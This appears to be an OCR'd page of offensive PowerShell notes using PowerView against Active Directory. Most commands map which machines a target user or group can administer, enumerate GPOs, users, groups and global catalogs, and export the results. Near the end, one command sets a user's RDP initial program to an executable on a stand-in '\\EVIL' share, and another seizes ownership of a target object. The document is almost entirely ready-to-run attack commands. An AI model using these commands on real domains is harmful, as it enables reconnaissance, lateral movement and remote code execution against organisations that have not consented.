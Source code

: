 ```powershell
# retrieve all the computer dns host names a GPP password applies to
Get-DomainOU -GPLink '<GPP_GUID>' -Domain $zdom_fqdn -DomainController $zdom_dc_fqdn | % {Get-DomainComputer -SearchBase $_.distinguishedname -Properties dnshostname -Domain $zdom_fqdn -DomainController $zdom_dc_fqdn}

# enumerate what machines that a particular user/group identity has local admin rights to
#   Get-DomainGPOUserLocalGroupMapping == old Find-GPOLocation
Get-DomainGPOUserLocalGroupMapping -Identity $ztarg_user -Domain $zdom_fqdn -DomainController $zdom_dc_fqdn 
Get-DomainGPOUserLocalGroupMapping -Identity $ztarg_group -Domain $zdom_fqdn -DomainController $zdom_dc_fqdn 

# export a csv of all GPO mappings
Get-DomainGPOUserLocalGroupMapping -Domain $zdom_fqdn -DomainController $zdom_dc_fqdn | %{$_.computers = $_.computers -join ", "; $_} | Export-CSV -NoTypeInformation gpo_map.csv

# find all policies applied to a computer/server
Get-DomainGPO -ComputerIdentity $computer -Domain $zdom_fqdn -DomainController $zdom_dc_fqdn

# find all policies applied to an user
Find-GPOLocation -UserName $ztarg_user -Domain $zdom_fqdn -DomainController $zdom_dc_fqdn

# all disabled users
Get-DomainUser -LDAPFilter "(userAccountControl:1.2.840.113556.1.4.803:=2)" -Domain $zdom_fqdn -DomainController $zdom_dc_fqdn 
Get-DomainUser -UACFilter ACCOUNTDISABLE -Domain $zdom_fqdn -DomainController $zdom_dc_fqdn 

# find all computers in a given OU
Get-DomainComputer -SearchBase "ldap://OU=..." -Domain $zdom_fqdn -DomainController $zdom_dc_fqdn 

# enumerate all gobal catalogs in the forest
Get-ForestGlobalCatalog -Domain $zdom_fqdn -DomainController $zdom_dc_fqdn 

# turn a list of computer short names to FQDNs, using a global catalog
gc computers.txt | % {Get-DomainComputer -SearchBase "GC://GLOBAL.CATALOG" -LDAP "(name=$_)" -Properties dnshostname -Domain $zdom_fqdn -DomainController $zdom_dc_fqdn }

# save a PowerView object to disk for later usage
Get-DomainUser -Domain $zdom_fqdn -DomainController $zdom_dc_fqdn | Export-Clixml user.xml
$ztarg_users = Import-Clixml user.xml

# enumerate all groups in a domain that don't have a global scope, returning just group names
Get-DomainGroup -GroupScope NotGlobal -Properties name -Domain $zdom_fqdn -DomainController $zdom_dc_fqdn 

# set the specified property for the given user identity
Set-DomainObject testuser -Set @{'mstsinitialprogram'='\\EVIL\program.exe'} -Verbose -Domain $zdom_fqdn -DomainController $zdom_dc_fqdn 

# set the owner of $ztarg_obj in the current domain to $zlat_user
Set-DomainObjectOwner -Identity $ztarg_obj -OwnerIdentity $zlat_user -Domain $zdom_fqdn -DomainController $zdom_dc_fqdn 
```